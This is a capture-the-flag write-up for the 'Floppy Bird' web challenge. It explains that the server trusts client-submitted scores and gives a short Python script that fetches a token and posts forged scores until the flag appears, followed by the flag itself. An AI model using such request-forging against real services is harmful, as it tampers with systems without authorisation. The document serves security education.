 # Floppy Bird – Writeup

## Challenge Description
```
I have recreated one of the most classic games in the browser, can you score 1000 points and get the flag?

Website: http://floppybird.challs.olicyber.it
```
In this challenge, the flag is awarded after reaching a certain score in the game. Instead of playing manually, we can exploit the server’s API to submit arbitrary scores until the flag is revealed.

## Challenge Analysis

1. **Token Retrieval**

   * A unique token is obtained from `/get-token`.
   * This token is required for all score submissions.

2. **Score Submission**

   * Each score is submitted via POST to `/update-score` with:

     ```json
     {
       "token": "<your_token>",
       "score": <i>
     }
     ```

3. **Obtaining the flag**

   * When we reach 1000 points we win so on the 1000th request the server sends the flag.

## Exploit
```python
import requests, json

site = "http://floppybird.challs.olicyber.it/"
token = json.loads(requests.get(site + "get-token").text)["token"]
r = ""

for i in range(1001):
    r = requests.post(site + "update-score", json={"token": token, "score": i}).json()
    if "flag" in r:
        print(r["flag"])
        break
````

## Flag

Running the exploit successfully retrieves the flag from the server’s response:

```
ptm{n3v3r_7rus7_cl13n7_s1d3_d4ta}
```
